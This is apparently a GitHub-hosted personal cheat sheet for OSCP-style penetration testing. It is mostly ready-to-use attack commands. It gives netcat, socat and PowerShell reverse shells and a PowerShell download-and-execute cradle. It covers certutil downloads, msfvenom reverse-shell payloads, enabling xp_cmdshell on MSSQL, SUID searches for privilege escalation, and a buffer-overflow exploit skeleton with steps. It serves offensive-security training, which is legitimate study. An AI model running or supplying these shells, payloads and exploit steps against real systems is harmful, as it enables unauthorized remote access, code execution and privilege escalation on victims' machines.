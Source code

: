 # Reference
General stuff that people overlook to use 

Skip to content
Pull requests
Issues
Marketplace
Explore
@pyro0ownz
pyro0ownz /
Reference
Public

Code
Issues
Pull requests
Actions
Projects
Wiki
Security
Insights

    Settings

Reference/References
@pyro0ownz
pyro0ownz Create References
Latest commit c66e452 20 seconds ago
History
1 contributor
216 lines (153 sloc) 6.74 KB
<h1>####################General Reference list (Incomplete) ###################</h1>
            <h4>######I will add to this more as have more time#######</h4>

<h3>#search for public exploits</h3> 

<p>Searchsploit
Google
github</p>

<h3>#Serve content<h3/>
 
<p>python3 -m http.server 80
 python2 -m SimpleHTTPServer 80</p>
 
<h3>#Linux download commands</h3> 
<p>wget 
curl
w3m
elinks</p>

<h3>#windows download commands</h3>
<p>certutil.exe -urlcache -f http://serverip/port</p>

<h3>#spawn tty shells</h3>

<p>python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
exec "/bin/sh"
in vi editor - :!bash 
in vi editor - :set shell=/bin/bash:shell
in nmap - !sh
socat file:`tty`,raw,echo=0 tcp-listen:666
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xxx.xxx.xxx.xxx:666
nc -lnvp 666 #listener
nc ip port –e /bin/bash #reverse shell netcat needs to be upgraded with above shells. </p>

<h3>#Linux permission search</h>
<p>find /usr/bin/ -perm -u=s # set uids 

find / -writable -type d 2>/dev/null # world-writeable folders
find / -perm -777 -type d 2>/dev/null # world-writeable folders

find / -perm -o w -type d 2>/dev/null # world-writeable folders

find / -perm -o x -type d 2>/dev/null # world-executable folders

find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable & executable folder</p>


<h3>#communicate with msssql</h3>

<p>#basic mysql stuff to login and database 
mysql -u <username> -p <password;
show databases;
use <table>;
show tables;
select * from <table>;

sqsh

xpcmdshell #is what you want to use in mssql with sqsh to get a command shell. If you dont have permission and its misconfigured, this is how you get a shell in sql. 
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1 error so we enable since we are sa account

1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go

1> xp_cmdshell 'whoami';
2> go
</p>

<h3>#windows powershell Reverse shell and powershell command to download and run as soon as its done downloading the file and to run the function in it.</h3>

<p>powershell.exe','-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"iptoconnectto\",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"'
powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://server:port/powershellfile.ps1'));Invoke-functiontocallfromyourps1"</p>



<h3>###########MSF venom###########</h3>
<p>#Format
msfvenom -p <payload> -f <ext> LHOST=<ip> LPORT=<port>

#Always check payload type!!
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe -o shell.exe

#ALWAYS USE STAGELESS PAYLOADS FOR NC REVERSE SHELL

if !(shell_return){ #if no shell returns arch problem else if shell died payload problem
	arch problem;
elseif (shell_died_instantly)){
	payload problem;
	}	
}

#Staged payload = split into 2 areas, 1st to initiate connection, rest to send actual payload ==> reverse_tcp
#Stageless payload = all in one, suitable for nc listeners bcx it is stable ==> shell_reverse_tcp

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.95 LPORT=80 -f exe -o shell.exe </p>



<h3>#######################Buffer Overflow section##################</h3>
<p>When you have a server or program that is on your network, and it is vulnerable to buffer overflow bad things happen. 

https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/

#!/usr/bin/python
import socket
import time
import sys
badchars = ("")
filler = "Z" * xxx
eip =  "\x00\x00\x00\x00" 
offset = "x" * xxx
end = "\r\n" #return or enter if needed 
nops = "\x90" * 10

try:
    print "\nThis is my boom stick!"

    inputbuffer = filler
    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.0.0", 666))
    s.send(inputbuffer)
    s.close()
    print "derka derka" 

except:
    print "\nSomething Went wrong"
    sys.exit()


find open port and ip 
send string until eip is overflown 
send pattern from msf-pattern_create
send pattern from msf and check offset 
gain control of eip and look for jump in assembly instructions from monamodules (make sure protections arent on in the thingy you find)
find the address for jump and stick in eip 
generate shell code and launch 

msf-pattern_create -l 
msf-pattern_offset -l -q 
!mona modules 
!mona find -s "\x00\x00" -m module </p>

<h3>#######################Links and other section####################</h3>

<p>Tools 
https://github.com/codingo/Reconnoitre

Upgrading shells
https://netsec.ws/?p=337



https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
https://netsec.ws/?p=337

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

JSON token
https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4

https://recipeforroot.com/


Window privesc:-
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/abatchy17/WindowsExploits
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc     <<warning may have automated exploitation in it.
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html


IMPORTANT****
snapd
https://github.com/initstring/dirty_sock

Breaking restrected shells
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells </p>


<h3>#####Tools you can use If your doing oscp######</h3>
<p>SUID3NUM 
winpeas 
linpeas < 2.7.0 
lse.sh (google it) 
nmapautomator #If you want automation because it only scans one host i made a suppliment script (https://github.com/pyro0ownz/nmapAutomator)
AutoRecon </p>


<p><b>More to come when i can gather my thoughts and play with some more stuff. Wish you luck and hope this helps!</b></p>

 

    © 2021 GitHub, Inc.

    Terms
    Privacy
    Security
    Status
    Docs
    Contact GitHub
    Pricing
    API
    Training
    Blog
    About

Loading complete
